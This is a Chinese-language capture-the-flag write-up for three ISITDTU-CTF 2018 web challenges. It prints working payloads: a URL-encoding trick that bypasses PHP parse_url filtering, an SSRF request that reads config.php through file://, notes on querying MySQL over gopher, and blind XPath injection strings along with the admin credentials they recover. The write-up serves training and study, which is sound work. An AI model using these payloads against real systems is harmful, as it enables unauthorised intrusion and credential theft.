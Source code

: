 ```yaml
---
title: ISITDTU-CTF
date: 2018-07-30 11:37:21
tags: ctf
---
```


## Web

### lz

代码审计

```php
<?php 

include "config.php"; 
$number1 = rand(1,100000000000000); 
$number2 = rand(1,100000000000); 
$number3 = rand(1,100000000); 
$url = urldecode($_SERVER['REQUEST_URI']); 
$url = parse_url($url, PHP_URL_QUERY); 
if (preg_match("/_/i", $url))  
{ 
    die("..."); 
} 
if (preg_match("/0/i", $url))  
{ 
    die("..."); 
} 
if (preg_match("/\w+/i", $url))  
{ 
    die("..."); 
}     
if(isset($_GET['_']) && !empty($_GET['_'])) 
{ 
    $control = $_GET['_'];         
    if(!in_array($control, array(0,$number1))) 
    { 
        die("fail1"); 
    } 
    if(!in_array($control, array(0,$number2))) 
    { 
        die("fail2"); 
    } 
    if(!in_array($control, array(0,$number3))) 
    { 
        die("fail3"); 
    } 
    echo $flag; 
} 
show_source(__FILE__); 
```

```
$url = urldecode($_SERVER['REQUEST_URI']); 
$url = parse_url($url, PHP_URL_QUERY);
```

由于这里在进行parse_url操作之前，先进行了一次`urldecode`操作，所以可以编码*#* 从而绕过parse_url检测。

payload:

```
http://35.185.178.212/?%23&_=a

php > var_dump(parse_url(urldecode("%23&_=a")),PHP_URL_QUERY);
array(1) {                                                    
  ["fragment"]=>                                              
  string(4) "&_=a"                                            
}                                                             
int(6)
```

在特定情况下也可以使用如下payload:

```
http://35.185.178.212///?_=a
```

测试如下:

```
php > var_dump(parse_url(urldecode("//?_=a")),PHP_URL_QUERY);
bool(false)
int(6)
php > var_dump(parse_url(urldecode("//a?_=a")),PHP_URL_QUERY);
array(2) {
  ["host"]=>
  string(1) "a"
  ["query"]=>
  string(3) "_=a"
}
int(6)
php > var_dump(parse_url(urldecode("//a/?_=a")),PHP_URL_QUERY);
array(3) {
  ["host"]=>
  string(1) "a"
  ["path"]=>
  string(1) "/"
  ["query"]=>
  string(3) "_=a"
}
int(6)
```

### Friss

获取index.php

> curl http://35.190.142.60/index.php?debug=1

index.php

```php
<?php 
include_once "config.php"; 
if (isset($_POST['url'])&&!empty($_POST['url'])) 
{ 
    $url = $_POST['url']; 
    $content_url = getUrlContent($url); 
} 
else 
{ 
    $content_url = ""; 
} 
if(isset($_GET['debug'])) 
{ 
    show_source(__FILE__); 
} 


?> 

<form action="index.php" method="POST"> 
<input name="url" type="text"> 
<input type="submit" value="CURL"> 
</form> 


<?php  

echo $content_url; 
?> 
```

获取config.php

> curl --data "url=file://localhost/var/www/html/config.php" http://35.190.142.60/index.php

config.php

```php
<?php


$hosts = "localhost";
$dbusername = "ssrf_user";
$dbpasswd = "";
$dbname = "ssrf";
$dbport = 3306;

$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);

function initdb($conn)
{
        $dbinit = "create table if not exists flag(secret varchar(100));";
        if(mysqli_query($conn,$dbinit)) return 1;
        else return 0;
}

function safe($url)
{
        $tmpurl = parse_url($url, PHP_URL_HOST);
        if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
        {
                var_dump($tmpurl);
                die("<h1>Only access to localhost</h1>");
        }
        return $url;
}

function getUrlContent($url){
        $url = safe($url);
        $url = escapeshellarg($url);
        $pl = "curl ".$url;
        echo $pl;
        $content = shell_exec($pl);
        return $content;
}
initdb($conn);
?>
```

登录数据库

> mysql -h 127.0.0.1 -u ssrf_user 

ssrf操作: 利用gopher协议查询数据库。

### Access  Box

要点：xpath注入。

参考文章：https://www.cnblogs.com/bmjoker/p/8861927.html

1. 提取父节点名字

   ```
   'or substring(name(parent::*[position()=1]),1,1)='a
   ```

    结果如下：

   ![](/assets/isictf/TIM截图20180804151333.png)

   可以发现第一个字母为`u`。最终，可以得到父节点名字为`user`。

2. 探测子节点

   探测第一个user节点下第二个字段的名字。

   ```
   'or substring(name(//user[1]/*[2]),1,1)='u' or 'a'='a
   ```

   ![](/assets/isictf/TIM截图20180804153803.png)

3. 探测子节点的值

   探测第一个user节点下第1个字段的值

   ```
   'or substring(//user[1]/*[2],1,1)='u' or 'a'='a
   或者:
   'or substring(//user[1]/*[1]/text(),1,1)='F&password=1
   ```

   结果:

   ![](/assets/isictf/TIM截图20180804153002.png)

   最终得到账号：

   ```
   Adm1n
   Ez_t0_gu3ss_PaSSw0rd
   ```

## pwn

https://github.com/chung96vn/challenges